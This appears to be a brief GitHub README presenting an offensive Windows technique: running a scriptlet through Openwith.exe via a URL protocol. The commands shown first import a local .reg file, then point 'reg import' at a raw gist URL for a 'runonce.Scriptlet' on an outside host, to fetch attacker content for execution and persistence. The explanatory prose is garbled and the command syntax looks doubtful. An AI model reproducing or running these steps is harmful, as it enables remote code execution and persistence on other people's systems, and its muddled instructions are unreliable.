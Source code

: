 ### Openwith  Microsoft/Tools 
Openwith.exe is a tool for operating the program according to content policies let's go for example
If you want open anything you can put it at Openwith.exe let's go to initiative the experience

The title of a concept is Scriptlet execution using an Openwith.exe via URL Protocol in System Operating
```
PS C:\> reg import C:\Users\harr0ey\Desktop\sss.reg
The operation completed successfully.
PS C:\>
 
```

## Currently, You have to go there and put the instructions
C:\> reg import 
https://gist.githubusercontent.com/homjxi0e/66555fedc78af49635b2e5dfea9dd1ae/raw/60b80e88c66fe58d2d906bb24f32925edd2fe025/runonce.Scriptlet
 
![1123132131313](https://user-images.githubusercontent.com/25440152/47610730-ecd49000-da5c-11e8-8700-0092788312cd.PNG)
 
